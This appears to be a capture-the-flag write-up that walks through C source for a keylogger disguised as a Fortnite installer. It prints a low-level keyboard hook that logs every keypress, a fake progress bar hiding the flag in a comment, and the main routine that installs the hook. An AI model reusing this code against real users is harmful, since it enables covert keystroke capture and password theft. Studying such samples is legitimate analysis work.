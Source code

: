 ```c
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
        logk(kbd->vkCode);
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}
```
To capture the keystrokes, the malware installs a low-level keyboard hook using the SetWindowsHookEx() function. The hook procedure is implemented in the KeyboardProc() function. When a key is pressed (WM_KEYDOWN), this function gets invoked and the key's virtual key code (vkCode) is passed to the logk() function for logging. HC_ACTION: The hook only processes the key events that require action, i.e., when a key is pressed down (WM_KEYDOWN).

```c
DWORD WINAPI fortnite(LPVOID lpParam) {
    printf("Fortnite setup:\n\n");
    int progress = 0;
    // Here
    // {battle_pass}
    // You're welcome
    while (progress <= 100) {
        printf("\r[%-50s] %d%%", "==================================================" + (50 - progress / 2), progress);
        fflush(stdout);
        Sleep(1000);
        progress++;
    }

    printf("\nInstallation Complete!\n");
    return 0;
}
```

The fortnite function will create the fortnite setup window. from ther we extract the commented flag {battle_pass}.

```c

int main() {
    HANDLE hThread = CreateThread(NULL, 0, fortnite, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create installation progress thread!\n");
        return 1;
    }

    hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
    if (!hHook) {
        printf("Failed to set hook!\n");
        return 1;
    }

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    UnhookWindowsHookEx(hHook);
    
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    return 0;
}
```